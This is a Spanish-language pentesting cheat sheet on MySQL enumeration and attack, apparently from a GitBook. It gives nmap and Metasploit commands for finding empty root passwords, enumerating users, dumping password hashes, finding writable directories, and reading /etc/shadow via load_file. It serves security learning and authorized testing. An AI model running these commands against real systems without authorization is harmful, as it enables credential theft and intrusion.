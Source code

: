 # MySQL

{% hint style="success" %}
Para hacer login en una base de datos con MySQL, ejecutamos el siguiente comando:

```bash
mysql -h 192.168.1.12 -u usuario -ppassword
```

ATENCION!! En el último parámetro, pondremos `-p` seguido de la contraseña sin espacios

Podemos omitir la contraseña para probar usuarios
{% endhint %}

## Enumeración Interna

### Bases de Datos

Una vez hayamos entrado en la BBDD con el usuario y contraseña, deberemos enumerar las bases de datos que sean inusuales o alguna que pueda tener información relevante. Para ello usamos el comando:

```sql
show databases;
```

Cuando queramos usar una BBDD, ejecutamos:

```sql
use example;
```

### Tablas

```sql
show tables;
```

### Ver toda la información de una tabla

```sql
SELECT * FROM tabla_ejemplo;
```

## Login Anónimo

Podemos comprobar si el login anónimo está habilitado para algún usuario con NMAP y el siguiente comando:

```bash
nmap --script=mysql-empty-password -p 3306 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

## Enumeración de usuarios

Para ver otros posibles usuarios, es necesario contar con el acceso de algun usuario o su login anonimo. Después, con un script de nmap, se nos mostrarán otros usuarios:

```bash
nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

## Enumeración hashes de contraseñas

### Metasploit

Podemos enumerar hashes de los usuarios y sus contraseñas (también hasheadas). Para ello empleamos metasploit:

```perl
msfconsole

use auxiliary/scanner/mysql/mysql_hashdump

set RHOSTS 192.71.145.3

set USERNAME root

set PASSWORD ""

exploit
```

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

### Nmap

Para enumerar los hashes de los usuarios con nmap, usaremos el siguiente comando:

```bash
nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p 3306 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

## Enumeración de directorios con escritura

Una vez tengamos credenciales validas o un login anónimo habilitado, podemos emplear el siguiente modulo de metasploit para saber en que directorios podemos escribir:

```perl
msfconsole

use auxiliary/scanner/mysql/mysql_writable_dirs

set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt

set RHOSTS 192.71.145.3

set VERBOSE false

set PASSWORD ""

exploit

```

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

## Enumeración de ficheros con lectura

Podemos enumerar ficheros disponibles (que podemos ver su contenido) con el siguiente módulo de metasploit:

```perl
msfconsole

use auxiliary/scanner/mysql/mysql_file_enum

set RHOSTS 192.71.145.3

set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt

set PASSWORD ""

exploit
```

<figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

## Leer archivos locales

Podemos leer archivos locales (previamente deberemos comprobar que ficheros podemos leer con la [#enumeracion-de-ficheros-con-lectura](mysql.md#enumeracion-de-ficheros-con-lectura "mention")). Para ello, ejecutamos la siguiente consulta en SQL:

```sql
select load_file("/etc/shadow");
```

<figure><img src="../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

## Enumeración de privilegios de archivo

{% hint style="info" %}
En MySQL, los privilegios de archivo permiten a los usuarios leer y escribir archivos en el sistema de archivos del servidor. Estos privilegios son potencialmente peligrosos, ya que pueden permitir a un usuario acceder a archivos sensibles o modificar la configuración del servidor.
{% endhint %}

Con el siguiente comando de NMAP podemos comprobar si tenemos privilegios de archivos puesto que pueden ser una via potencial de explotación. Para ello, ejecutamos el siguiente comando:

```bash
nmap --script=mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" -p 3306 192.68.1.1
```

<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>
